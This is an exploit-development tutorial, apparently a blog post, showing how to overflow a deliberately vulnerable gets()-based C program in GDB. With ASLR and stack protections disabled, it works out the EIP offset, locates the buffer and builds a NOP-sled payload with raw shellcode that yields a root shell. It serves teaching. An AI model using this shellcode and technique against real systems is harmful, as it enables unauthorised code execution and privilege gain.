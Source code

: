 ```yaml
---
layout: post
title:  "Stack Buffer Overflows: Linux 2 - Using GDB"
date:   2018-01-17 01:00:00 +0100
categories: [bof]
description: v0.1
image:
  feature: shellcode2.jpg
  credit:
  creditlink:
---
```

In Chapter 2 of my Linux Stack Buffer Overflow series I'll be walking you through crafting an exploit from scratch in GDB with no external hints of the environment.  If you're new to this type of exploit I'd recommend going through [Chapter 1](/bof/linux-stack-bof-1.html). 

One issue with crafting an exploit in GDB and then running it outside, is that the exploit simply no longer works.  In the previous chapter, we were printing out the location of our exploit in memory, but what if we don't have that luxury? To show you how to overcome this, we'll be using the following code.

```c
#include <stdio.h>

int main(){
  bof();
  return 0;
}

int bof()
{
  char buffer[128];
  gets(buffer);
  return 0;
}

```  

### Step 1: Equalise the environment

There can be a number of reasons for this, but by far the most common is that the stack offsets outside GDB are different within GDB.  This [stack overflow](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966) answer does a good job explaining the exact reason, environment variables.  It also provides a handy script for equalising these inside and outside GDB.  

The script in addition to setting a consistent set of environment variables, forces the step of calling a full rather than relative pathname, i.e `/root/test` vs `./test`. Even if not using this script, always call binaries with their full pathname.

I've demonstrated the use of this script below, and Example 3 from [Chapter 1](/bof/linux-stack-bof-1.html), which shows that the offset is equal in both.

We also need to remove the two added environment variables, LINES and COLUMNS:  

```
unset env LINES
unset env COLUMNS
```

```bash
root@kali:~# ./invoke test
Wanna Smash!?: 0xffffddb0
```
```gdb
root@kali:~# ./invoke -d test
...............SNIP........................
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Starting program: /root/test 
Wanna Smash!?: 0xffffddb0
```

We can see that the stack offsets are equal if we take these steps.  It's worth doing even if, like me, you're very lazy as it will save you a lot of stress further down the line.

### Step 2: Overflow the Buffer

So compile the binary, removing all protections.

```bash
root@kali:~/bof# echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
0
root@kali:~/bof# gcc bof.c -o bof  -fno-stack-protector -z execstack -m32
```

The first part of the exploitation process is much the same as in Chapter 1.  We first find the point at which `eip` is overrun using a cyclical sequence.

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r
Starting program: /root/bof/bof 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

```
EIP: 0x41416d41 ('AmAA')
```

From this we find `eip` at `0x41416d41`, which is at position 140 in the string.

### Step 3: Examine the Memory

We now have to find where to jump to.  We'll write in a sequence of easily identifiable characters that we can locate when searching memory.  A series of 200 'A' characters should suffice.

```gdb
gdb-peda$ r
Starting program: /root/bof/bof 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Run the find command to search for a series of 'A' characters:  
```
gdb-peda$ find 0x41414141
```
Then find the result where 'A' repeats 200 times on the stack:  
```gdb
[stack] : 0xffffddb0 ('A' <repeats 200 times>)
```

An alternative method is to search around `esp`, the stack pointer and look for this sequence:  
```gdb
gdb-peda$ x/80x $esp-200
0xffffdd78:	0x01	0x00	0x00	0x00	0xb0	0xdd	0xff	0xff
0xffffdd80:	0x38	0xde	0xff	0xff	0x20	0xe3	0xfe	0xf7
0xffffdd88:	0xb0	0xdd	0xff	0xff	0x00	0x70	0x55	0x56
0xffffdd90:	0x01	0x00	0x00	0x00	0x00	0x90	0xf9	0xf7
0xffffdd98:	0x38	0xde	0xff	0xff	0x70	0x55	0x55	0x56
0xffffdda0:	0xb0	0xdd	0xff	0xff	0x01	0x00	0x00	0x00
0xffffdda8:	0xa0	0x34	0xfd	0xf7	0x5a	0x55	0x55	0x56
0xffffddb0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddb8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0xffffddc0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```
Here we confirm that our sequence begins at `0xffffddb0`.  Assuming this will be the same stack offset, we'll jump to just after this location.

### Step 4: Write your Shellcode

For this we'll just grab [this shellcode](https://www.exploit-db.com/exploits/42177/).
```bash
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffddb0)' > /tmp/var
```

We now test it in GDB, so we know our shellcode is working correctly:  
```gdb
gdb-peda$ r < /tmp/var
Starting program: /root/bof/bof < /tmp/var
process 6648 is executing new program: /bin/dash
[Inferior 1 (process 6648) exited normally]
Warning: not running or target is remote
```
Finally, we just run it outside the program:  
```bash
root@kali:~/bof# (cat /tmp/var; cat)|./invoke bof
id
uid=0(root) gid=0(root) groups=0(root)
ls
bof  bof.c  invoke  peda-session-bof.txt  peda-session-dash.txt
```

Without Invoke
--------------------------------

Of course sometimes the script isn't available to us, or isn't appropriate to the environment.  Say you're exploiting a remote service, and therefore the binary is already loaded and memory locations set.

In this case repeat exactly as above, removing the environment variables again but simply don't use the `invoke` script.  We'll get a different stack address:
```
[stack] : 0xffffd280 ('A' <repeats 200 times>)
```
So we adjust our payload accordingly:
```
root@kali:~/bof# python -c 'from struct import pack; print "\xeb\x34\x5e\x31\xc0\x31\xc9\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb1\x07\x80\x74\x0e\xff\x03\x80\xe9\x01\x75\xf6\x31\xdb\xb0\x17\xcd\x80\x31\xdb\xb0\x2e\xcd\x80\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xc7\xff\xff\xff\x2c\x61\x6a\x6d\x2c\x70\x6b".rjust(140, "\x90")+pack("<L", 0xffffd280)' > /tmp/var
root@kali:~/bof# (cat /tmp/var; cat)| /root/bof/bof
id
uid=0(root) gid=0(root) groups=0(root)
```
If this doesn't work, then all you need to do is play around with the stack location.  Fuzz that value on stack addresses above and below your current until the exploit succeeds.

Epilogue
-----------

Hopefully now you have a good idea how you'd build an exploit from scratch using GDB.  We've successfully exploited a binary without it intentionally leaking information, but we're still disabling all stack protections.  Next time I'll show you how to bypass the simplest of these, data execution prevention (DEP) and use a technique known as ret2libc.

References
----------
[PEDA](https://github.com/longld/peda)  
[Stack Overflow Answer on Failing GDB Exploit](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)  
[https://www.exploit-db.com/exploits/42177/](https://www.exploit-db.com/exploits/42177/)  
